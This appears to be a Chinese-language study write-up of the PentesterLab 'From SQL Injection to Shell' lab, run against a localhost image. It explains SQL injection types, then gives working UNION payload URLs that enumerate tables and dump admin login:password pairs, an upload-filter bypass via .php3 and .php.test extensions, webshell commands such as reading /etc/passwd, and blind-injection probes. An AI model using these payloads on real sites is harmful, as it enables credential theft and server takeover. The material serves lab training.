







# From SQL Injection to Shell  

### SQL Injection 产生原因  
- 太过于信任用户所输入的数据，未限制输入的字符数，未对用户输入的数据做潜在指令的检查。当用户输入的数据包含SQL代码时，该SQL代码在服务端脚本的执行过程中被带入到数据库引擎当作一段SQL代码执行，就会导致SQL注入。

### SQL Injection 攻击原理   
- 基于B/S应用开发模式编写应用程序，在编写代码的时候，没有对用户输入数据的合法性进行判断，使应用程序存在安全隐患   
- 用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想得知的数据  
- SQL注入是从正常的WWW端口访问，而且表面看起来跟一般的Web页面访问没什么区别。  
### SQL Injection 攻击分类
1. 按攻击手段分类  

	Piggy-backed Queries  多命令语句攻击  

	Tautologies   恒真命题攻击  

	Alternate Encodings   其他编码攻击  

	Illegal/Logically Incorrect Queries  非法查询攻击  

	Union Query   联合查询攻击  

	Stored Procedures  存储过程的注入攻击  

2. 按获取数据方式  
	**Inband：**  
	Inband技术使用攻击者和有漏洞的Web应用程序之间现有的渠道来提取数据。通常该通道是标准的Web服务器响应。  
	**inference（推理）：**  
	Inference技术中，攻击者通过应用程序表现的差异来推断数据的值。Inference技术能够逐位提取恶意SQL查询结果，却没有真正传输数据。  
	**out-of-band：**  
	Out-of-band(OOB)技术，与inband相反，使用其它传输信道获取数据，例如超文本传输协议和DNS解析协议。

### 基本思路   
- 收集web开发的基本信息  
- 检测并利用SQL注入检索信息
- 获取管理员权限并执行代码  

### 实验环境   
- 服务器采用的是Pentesterlab封装好的镜像来进行搭建，采用的是debian的系统。  
- 攻击方可采用kali、Windows等多种系统。     

### 实验过程
- **通过调查分析得知目标是基于PHP开发的网站**   
- **SQL注入漏洞的判断**  
SQL Injection Cheat Sheet  
SQL注入备忘单是一个资源，您可以在其中找到有关SQL注入漏洞的许多不同变体的详细技术信息。这个备忘单对于经验丰富的渗透测试者以及那些刚开始使用Web应用程序安全性的人来说都是很好的参考

  **1.整型参数的判断**  
  **2.字符串型参数的判断**  
  
- **利用关键词UNION检索信息**  
为了执行一个SQL注入请求，需要知道查询第一部分返回的列数  
两种方法：  
1.使用UNION SELECT语句并增加列数。如果UNION语句连接的两个查询返回的列数不同，数据库会报错。因此可以通过这个方法来猜测列数  

**示例：**  
  列数不同时会报错： 
  
列数相同时则能正常显示：  
http://localhost/cat.php?id=1%20union%20select%201,2,3,4  
说明该页面的列数为4  
2.使用ORDER BY 语句，返回的结果会根据ORDER BY 语句选择的列进行排序，ORDER BY后可以是列名，也可以是第几列的数字，如果列数超出现有值，数据库会报错。因此可以通过这个方法可以找到最后一列  
**示例**  
列数小于等于页面列数时，可以正常显示  
列数大于页面列数时，会报错：  
http://localhost/cat.php?id=1%20order%20by%205  
  
- **基于所收到的错误消息，得知所使用的后台数据库是MySQL**  
利用这些信息，可以强制数据库执行一个函数或发送信息给我们  
两种方法：  
1.使用current_user()语句，用来取得 MySQL 当前使用者名称 
2.使用version()语句，得到数据库版本号  
**示例：**  
**the database version:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4  
http://localhost/cat.php?id=1%20union%20select%201,version%28%29,3,4  
  
   **the current user:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4  
  
**the current database:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,database(),3,4  
  
 **利用返回的meta-information构建最终请求**  
从MySQL版本5开始，MySQL提供关于数据库、表、列的meta-information，这些信息储存在information_schema数据库里  
得到列与其对应的表  
**the list of tables:** http://localhost/cat.php?id=1%20UNION%20SELECT%201,table_name,3,4%20FROM%20information_schema.tables
  
**the list of columns:**http://localhost/cat.php?id=1%20UNION%20SELECT%201,column_name,3,4%20FROM%20information_schema.columns  
  
**利用查询语句得到管理员账号与密码**  
- 获取用于访问管理页面的用户名和密码：http://localhost/cat.php?id=1%20UNION%20SELECT%201,concat(login,%27:%27,password),3,4%20FROM%20users  
   
**利用网络查询或密码破解工具得到密码明文**  
- [md5在线解密破解（需要付费）](http://www.cmd5.com/)  
 
- [md5在线解密破解](http://pmd5.com/)  
  
**根据已知的账号密码成功登录到管理员界面：**
  
**上传webshell和执行代码获取管理员权限**  
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。黑客在入侵了一个网站后，通常会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或者php后门，得到一个命令执行环境，以达到控制网站服务器的目的  
- 用账号密码登陆网站，找到上传文件位置，上传一个 php 脚本  
  
  
  
我们可以看到这个脚本没有在服务器上正确上传。应用防止文件扩展名.PHP上传。然而，我们可以尝试：  
- .PHP3这将绕过简单的.php过滤器  
- .php.test这将绕过简单的.php过滤器，但Apache仍会将它视作.php文件，因为配置中没有对于.test文件的处理器。  
  
修改后可以成功上传  
打开上传的图片，通过查看该页面的源代码，得到图片的URL  
  
访问http://localhost/admin/uploads/shell.php3?cmd=uname将运行在操作系统的命令信息并返回当前的内核（Linux）  
  
其他命令可以用来检索更多的信息：  
cat /etc/passwd 来得到系统的完整的用户列表  
 
uname -a 获取当前的内核版本  

ls 获取当前目录的内容  
  

## 盲注  
### 为什么叫盲注  
与普通的注入不同的是，SQL盲注是一种通过向数据库请求真或假的问题然后根据回应来决定或判断答案的一种SQL注入式攻击。例如发现了SQL注入点，但应用只提供了一个通用的错误页面，或者说提供了正常的页面，但与我们取回的内容只有细小差异（部分可能不可见或不易观察），这些就属于SQL盲注。  
### SQL盲注分类  
- 基于内容  
    *  "xxx.php?id=2 and 1=2" 
    * If the content of the page that returns 'true' is different than that of the page that returns 'false', then the attacker is able to distinguish when the executed query returns true or false.  
- 基于时间  
    *  "xxx.php?id=1' waitfor delay '00:00:10'--"  (Microsoft SQL Server)  
    * Mysql 常搭配 sleep()与benchmark()使用  
    * 通过服务器响应的时间可以判断出语句成功或失败  
**SQL盲注实质仍属于SQL注入，需要通过多次进行真假的询问来对内容进行逐字符的猜解**  

###参考资料  
1. [pentesterlab course](https://pentesterlab.com/exercises/from_sqli_to_shell/course)  
2. [WIKIPEDIA SQL injection](https://en.wikipedia.org/wiki/SQL_injection)
3. [A Classification of SQL Injection Attack Techniques and Countermeasures](http://www.cc.gatech.edu/~orso/papers/halfond.viegas.orso.ISSSE06.presentation.pdf)  
4. [SQL Injection](http://hwang.cisdept.cpp.edu/swanew/Text/SQL-Injection.htm)
5. [A Classification of SQL Injection Attacks and Countermeasures ](https://pdfs.semanticscholar.org/81a5/02b52485e52713ccab6d260f15871c2acdcb.pdf)
6. [在DNS中的SQL注入攻击](http://blog.csdn.net/netsec_steven/article/details/52763702)
7. [SQL Injection Tutorial](http://www.w3resource.com/sql/sql-injection/sql-injection.php)

